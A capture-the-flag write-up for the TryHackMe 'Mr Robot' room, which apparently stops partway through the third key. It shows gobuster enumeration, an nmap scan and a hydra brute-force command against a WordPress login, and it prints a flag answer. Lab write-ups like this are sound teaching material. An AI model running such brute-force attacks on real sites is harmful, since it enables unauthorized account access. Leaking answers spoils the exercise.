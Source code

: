 ```yaml
---
title:  "TryHackMe | Mr Robot"
layout: post

---
```


## What is key 1?

the hint says: robots

we nagivate to http://10.10.63.240/robots.txt and get this

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
go to:

http://10.10.63.240/key-1-of-3.txt

ans: 073403c8a58a1f80d943455fb30724b9

## What is key 2?

we use gobuster to discover this is a wordpress website with a wp-login page

```
kali@kali:~/Downloads$ gobuster dir -u http://10.10.63.240:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.63.240:80
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/22 03:56:59 Starting gobuster
===============================================================
/images (Status: 301)
/blog (Status: 301)
/rss (Status: 200)
/sitemap (Status: 200)
/login (Status: 302)
/0 (Status: 301)
/feed (Status: 200)
/video (Status: 301)
/image (Status: 301)
/atom (Status: 200)
/wp-content (Status: 301)
/admin (Status: 301)
/audio (Status: 301)
/intro (Status: 200)
/wp-login (Status: 200)
/css (Status: 301)
/rss2 (Status: 200)
/license (Status: 200)
/wp-includes (Status: 301)
/js (Status: 301)
/Image (Status: 301)
/rdf (Status: 200)
/page1 (Status: 200)
/readme (Status: 200)
/robots (Status: 200)
/dashboard (Status: 302)
/%20 (Status: 301)
/wp-admin (Status: 301)
/phpmyadmin (Status: 403)
/0000 (Status: 301)
Progress: 12561 / 220561 (5.70%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/07/22 04:09:21 Finished
===============================================================
```

download the fsocity.dic file from 10.10.63.240/fsociety.doc

We open up fsociety.dic - it looks like it could be a list of usernames or passwords. Lets try to brute force the username of the wordpress login using hydra

First we need to get the http-post-form from burpsuite

![Github](./images/burpwp.png)

we get this line from burpsuite

```
log=myname&pwd=mypassword&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.116.182%2Fwp-admin%2F&testcookie=1
```

then format it to use with hydra

```console
kali@kali:~/Downloads$ hydra -L fsocity.dic -p test 10.10.107.219 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.107.219%2Fwp-admin%2F&testcookie=1:F=Invalid username"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-23 01:15:37
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.107.219:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.107.219%2Fwp-admin%2F&testcookie=1:F=Invalid username
[80][http-post-form] host: 10.10.107.219   login: Elliot   password: test
```

the username is Elliot




## What is key 3?

the hint says: nmap

```console
kali@kali:~/Downloads$ nmap -sV -v -Pn -n -p80,443 10.10.63.240
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-22 03:15 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Connect Scan at 03:15
Scanning 10.10.63.240 [2 ports]
Discovered open port 80/tcp on 10.10.63.240
Discovered open port 443/tcp on 10.10.63.240
Completed Connect Scan at 03:15, 0.40s elapsed (2 total ports)
Initiating Service scan at 03:15
Scanning 2 services on 10.10.63.240
Completed Service scan at 03:15, 14.39s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.63.240.
Initiating NSE at 03:15
Completed NSE at 03:15, 3.53s elapsed
Initiating NSE at 03:15
Completed NSE at 03:15, 3.20s elapsed
Nmap scan report for 10.10.63.240
Host is up (0.40s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd
443/tcp open  ssl/http Apache httpd

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.24 seconds
```
